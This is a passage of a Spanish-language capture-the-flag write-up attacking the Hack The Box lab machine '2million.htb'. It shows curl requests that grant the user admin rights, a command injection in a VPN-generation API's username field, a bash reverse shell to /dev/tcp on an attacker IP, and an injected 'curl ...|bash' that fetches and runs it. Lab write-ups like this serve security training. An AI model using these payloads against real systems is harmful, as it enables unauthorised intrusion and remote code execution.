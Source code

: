 ```null
curl -s -X PUT http://2million.htb/api/v1/admin/settings/update -H "Cookie: PHPSESSID=6uhbsaq0ijeop2ujkk3nm2bjl0" -H "Content-type: application/json" -d '{"email":"rubbx@rubbx.com", "is_admin": 1}' | jq
{
  "id": 14,
  "username": "rubbx",
  "is_admin": 1
}
```

Al volver a checkear el mensaje cambia

```null
curl -s -X GET http://2million.htb/api/v1/admin/auth -H "Cookie: PHPSESSID=6uhbsaq0ijeop2ujkk3nm2bjl0" | jq
{
  "message": true
}
```

Intento generar una vpn, pero desde ```/admin```

```null
curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate -H "Cookie: PHPSESSID=6uhbsaq0ijeop2ujkk3nm2bjl0" -H "Content-type: application/json" | jq
{
  "status": "danger",
  "message": "Missing parameter: username"
}
```

Es vulnerable a RCE a través de una inyección en el campo ```username```

```null
curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate -H "Cookie: PHPSESSID=6uhbsaq0ijeop2ujkk3nm2bjl0" -H "Content-type: application/json" -d '{"username":"test; id;"}'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Creo un archivo ```index.html```  que se encargue de enviarme una reverse shell

```null
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.16.69/443 0>&1'
```

Lo comparto con un servicio HTTP con python

```null
python3 -m http.server 80
```

Gano acceso al sistema

```null
curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate -H "Cookie: PHPSESSID=6uhbsaq0ijeop2ujkk3nm2bjl0" -H "Content-type: application/json" -d '{"username":"test; curl 10.10.16.69|bash;"}'
```
